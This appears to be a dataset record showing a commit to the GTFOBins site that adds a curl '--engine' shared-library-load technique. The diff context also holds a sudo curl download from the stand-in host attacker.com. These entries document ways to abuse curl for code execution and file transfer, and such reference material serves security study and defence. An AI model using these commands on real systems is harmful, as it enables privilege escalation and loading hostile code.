

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/curl.md, in a window 1280 px wide and 900 px high, scrolled down 937 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add library load via `--engine` to curl

```diff
--- a/_gtfobins/curl.md
+++ b/_gtfobins/curl.md
@@ -36,4 +36,8 @@ functions:
         URL=http://attacker.com/file_to_get
         LFILE=file_to_save
         sudo curl $URL -o $LFILE
+  library-load:
+    - description: Load a shared library as OpenSSL engine. Only works if curl is compiled with OpenSSL and OpenSSL has engine support enabled.
+      code: |
+         curl --engine /path/to/library.so https://example.com
 ---
```
